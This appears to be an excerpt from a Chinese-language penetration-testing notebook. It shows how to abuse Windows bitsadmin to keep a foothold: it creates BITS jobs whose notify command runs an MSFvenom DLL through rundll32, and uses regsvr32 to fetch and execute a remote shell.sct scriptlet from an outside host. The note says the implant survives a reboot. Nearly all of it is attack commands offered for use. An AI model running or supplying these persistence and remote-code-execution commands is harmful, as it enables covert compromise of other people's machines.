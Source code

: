 	创建下载任务
	>bitsadmin /create empire
	下载的文件设置
	>bitsadmin /addfile empire %comspec% c:\windows\temp\1.exe
	设置传输时运行的命令,MSFvenom生成dll放入temp目录
	>bitsadmin /SetNotifyCmdLine empire cmd.exe "cmd.exe /c rundll32 c:\windows\temp\1.dll,0"
	(bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://x.com/shell.sct scrobj.dll")
	启动任务
	>bitsadmin /resume empire
	列出所有用户的下载任务
	>bitsadmin /list /allusers /verbose
![image](/assets/Pentest_Note/master/img/459.png)


	重启后也会上线
![image](/assets/Pentest_Note/master/img/460.png)

	完成任务
	>bitsadmin /complete empire
	>bitsadmin /cancel <Job> //删除某个任务
	>bitsadmin /reset /allusers //删除所有任务
	&
	>bitsadmin /create mission
	>bitsadmin /addfile mission %comspec% %temp%\cmd.exe
	>bitsadmin.exe /SetNotifyCmdLine mission regsvr32.exe "/u /s /i:http://192.168.0.107/shell.sct scrobj.dll"
	>bitsadmin /Resume mission